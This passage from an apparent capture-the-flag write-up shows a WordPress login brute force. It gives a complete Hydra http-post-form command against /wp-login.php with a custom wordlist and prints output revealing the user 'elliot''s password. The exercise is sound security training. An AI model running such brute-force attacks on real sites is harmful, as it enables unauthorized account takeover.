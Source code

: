<img src="./screenshots/3.png" width="80%">

Used link: [Hydra HTTP post form module](https://labex.io/tutorials/hydra-explore-hydra-module-specific-options-550767)

Nice! A user named `elliot` seems to exist, and we can also note that the case is not important.

Now that we have a username available on the WordPress website, maybe we can brute force his password too, right? Let’s try to do that!

```bash
hydra -l elliot -P fsocity_uniq.dic target http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget%2Fwp-admin%2F&testcookie=1:F=The password you entered" -t 64 -I 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-03 12:11:43
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 11452 login tries (l:1/p:11452), ~179 tries per task
[DATA] attacking http-post-form://target:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget%2Fwp-admin%2F&testcookie=1:F=The password you entered
[STATUS] 4796.00 tries/min, 4796 tries in 00:01h, 6656 to do in 00:02h, 64 active
[80][http-post-form] host: target   login: elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-03 12:12:55
```

**Command explanation: We just changed the `-L` to `-P` and vice versa; otherwise, it’s the same structure.**
